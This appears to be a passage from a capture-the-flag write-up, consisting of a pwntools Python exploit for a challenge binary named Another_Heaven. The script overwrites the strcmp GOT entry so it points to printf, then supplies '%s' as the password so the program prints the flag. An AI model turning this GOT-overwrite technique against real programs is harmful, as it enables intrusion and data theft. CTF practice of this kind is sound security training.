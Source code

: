### 0x2 exp

```python
#!/usr/bin/python
#__author__:TaQini

from pwn import *

local_file  = './Another_Heaven'
local_libc  = '/lib/x86_64-linux-gnu/libc.so.6'
remote_libc = local_libc # '../libc.so.6'

if len(sys.argv) == 1:
p = process(local_file)
libc = ELF(local_libc)
elif len(sys.argv) > 1:
if len(sys.argv) == 3:
host = sys.argv[1]
port = sys.argv[2]
else:
host, port = sys.argv[1].split(':')
p = remote(host, port)
libc = ELF(remote_libc)

elf = ELF(local_file)

context.log_level = 'debug'
context.arch = elf.arch

se      = lambda data               :p.send(data) 
sa      = lambda delim,data         :p.sendafter(delim, data)
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(delim, data)
sea     = lambda delim,data         :p.sendafter(delim, data)
rc      = lambda numb=4096          :p.recv(numb)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
uu32    = lambda data               :u32(data.ljust(4, '\0'))
uu64    = lambda data               :u64(data.ljust(8, '\0'))
info_addr = lambda tag, addr        :p.info(tag + ': {:#x}'.format(addr))

def debug(cmd=''):
gdb.attach(p,cmd)

#info
strcmp_got = elf.got['strcmp']

ru('There is a back door..."Hacked by Annevi!"\n')
sl(str(strcmp_got))
sl('\x26') # strcmp_got -> printf_got 
ru('Password:')
sl('%s') # strcmp(password,flag) -> printf("%s",flag)
flag = ru('Wrong Password!\n')

log.info('flag is: ' + flag)

p.interactive()
```
